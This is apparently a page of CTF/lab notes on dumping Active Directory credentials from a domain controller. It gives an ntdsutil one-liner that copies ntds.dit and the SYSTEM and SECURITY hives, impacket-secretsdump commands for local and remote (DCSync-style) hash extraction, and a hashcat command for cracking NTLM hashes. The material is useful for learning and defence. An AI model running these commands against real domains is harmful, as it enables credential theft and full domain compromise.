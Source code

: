 # Domain Controller

As explained before, New Technologies Directory Services (NTDS) is a database containing all Active Directory data, including objects, attributes, credentials, etc. Located in `C:\Windows\NTDS` by default, and it is encrypted to prevent data extraction from a target machine.

***

### <mark style="color:green;">Local Dumping (No Credentials)</mark>

To successfully dump the content of the NTDS file we need the following files:

* <mark style="color:red;">**C:\Windows\NTDS\ntds.dit**</mark>
* <mark style="color:red;">**C:\Windows\System32\config\SYSTEM**</mark>
* <mark style="color:red;">**C:\Windows\System32\config\SECURITY**</mark>

We can use this Powershell one-liner to dump the NTDS file using the Ntdsutil tool in the `C:\temp` directory

```powershell
ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q
```

<figure><img src="../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

Inside both of those folders contain the required files we need. In a usual case, we would transfer them on our attacking machine and retrieve the NTLM hashes using impacket's `secretsdump`

```bash
impacket-secretsdump -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
```

***

### <mark style="color:green;">Remote Dumping (With Credentials)</mark>

In the previous section, we discussed how to get hashes from memory with no credentials in hand. In this task, we will be showing how to dump a system and domain controller hashes remotely, which requires credentials, such as passwords or NTLM hashes. We also need credentials for users with administrative access to a domain controller or special permissions as discussed in the DC Sync section.

{% embed url="https://mfkrypt.gitbook.io/stuff/ctf-writeups/tryhackme/exploiting-active-directory/exploiting-domain-trusts#dcsync" %}

```bash
impacket-secretsdump -just-dc <DOMAIN>/<AD_ADMIN_USER>@10.10.54.234
```

<figure><img src="../../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>

Then, attempt to crack it using Hashcat

```
hashcat -m 1000 -a 0 /path/to/ntlm_hashes.txt /path/to/wordlist/such/as/rockyou.txt
```

<figure><img src="../../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>
